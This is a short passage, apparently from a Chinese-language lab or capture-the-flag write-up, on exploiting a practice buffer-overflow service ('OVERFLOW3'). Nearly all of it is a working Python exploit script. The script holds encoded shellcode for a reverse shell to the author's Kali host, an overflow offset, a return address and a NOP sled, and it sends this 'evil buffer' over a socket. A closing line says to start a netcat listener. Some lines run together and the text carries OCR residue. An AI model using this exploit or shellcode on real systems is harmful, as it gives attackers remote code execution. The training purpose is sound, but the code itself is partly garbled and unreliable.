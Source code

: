 所以最后的有效载荷是我的卡莉

```
import socketip = "192.168.43.57"
port = 1337
buf = b""
buf += b"\xfc\xbb\xc3\x62\xa9\xe4\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
buf += b"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x3f\x8a\x2b\xe4\xbf"
buf += b"\x4b\x4c\x6c\x5a\x7a\x4c\x0a\x2f\x2d\x7c\x58\x7d\xc2\xf7\x0c"
buf += b"\x95\x51\x75\x99\x9a\xd2\x30\xff\x95\xe3\x69\xc3\xb4\x67\x70"
buf += b"\x10\x16\x59\xbb\x65\x57\x9e\xa6\x84\x05\x77\xac\x3b\xb9\xfc"
buf += b"\xf8\x87\x32\x4e\xec\x8f\xa7\x07\x0f\xa1\x76\x13\x56\x61\x79"
buf += b"\xf0\xe2\x28\x61\x15\xce\xe3\x1a\xed\xa4\xf5\xca\x3f\x44\x59"
buf += b"\x33\xf0\xb7\xa3\x74\x37\x28\xd6\x8c\x4b\xd5\xe1\x4b\x31\x01"
buf += b"\x67\x4f\x91\xc2\xdf\xab\x23\x06\xb9\x38\x2f\xe3\xcd\x66\x2c"
buf += b"\xf2\x02\x1d\x48\x7f\xa5\xf1\xd8\x3b\x82\xd5\x81\x98\xab\x4c"
buf += b"\x6c\x4e\xd3\x8e\xcf\x2f\x71\xc5\xe2\x24\x08\x84\x6a\x88\x21"
buf += b"\x36\x6b\x86\x32\x45\x59\x09\xe9\xc1\xd1\xc2\x37\x16\x15\xf9"
buf += b"\x80\x88\xe8\x02\xf1\x81\x2e\x56\xa1\xb9\x87\xd7\x2a\x39\x27"
buf += b"\x02\xfc\x69\x87\xfd\xbd\xd9\x67\xae\x55\x33\x68\x91\x46\x3c"
buf += b"\xa2\xba\xed\xc7\x25\x05\x59\xec\xfc\xed\x98\xf2\xef\xb1\x15"
buf += b"\x14\x65\x5a\x70\x8f\x12\xc3\xd9\x5b\x82\x0c\xf4\x26\x84\x87"
buf += b"\xfb\xd7\x4b\x60\x71\xcb\x3c\x80\xcc\xb1\xeb\x9f\xfa\xdd\x70"
buf += b"\x0d\x61\x1d\xfe\x2e\x3e\x4a\x57\x80\x37\x1e\x45\xbb\xe1\x3c"
buf += b"\x94\x5d\xc9\x84\x43\x9e\xd4\x05\x01\x9a\xf2\x15\xdf\x23\xbf"
buf += b"\x41\x8f\x75\x69\x3f\x69\x2c\xdb\xe9\x23\x83\xb5\x7d\xb5\xef"
buf += b"\x05\xfb\xba\x25\xf0\xe3\x0b\x90\x45\x1c\xa3\x74\x42\x65\xd9"
buf += b"\xe4\xad\xbc\x59\x04\x4c\x14\x94\xad\xc9\xfd\x15\xb0\xe9\x28"
buf += b"\x59\xcd\x69\xd8\x22\x2a\x71\xa9\x27\x76\x35\x42\x5a\xe7\xd0"
buf += b"\x64\xc9\x08\xf1\x64\xed\xf6\xfa"
prefix = "OVERFLOW3 "
offset = 1274
overflow = "A" * offset
retn = "\x03\x12\x50\x62"
padding = "\x90" * 16
payload = bufpostfix = ""buffer = prefix + overflow + retn + padding + payload + postfixs = socket.socket(socket.AF_INET, socket.SOCK_STREAM)try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(buffer + "\r\n")
  print("Done!")
except:
  print("Could not connect.")
```

用 netcat 启动一个监听器

![](img/22ba3a70971ae85119c69b019469eb0a.png)
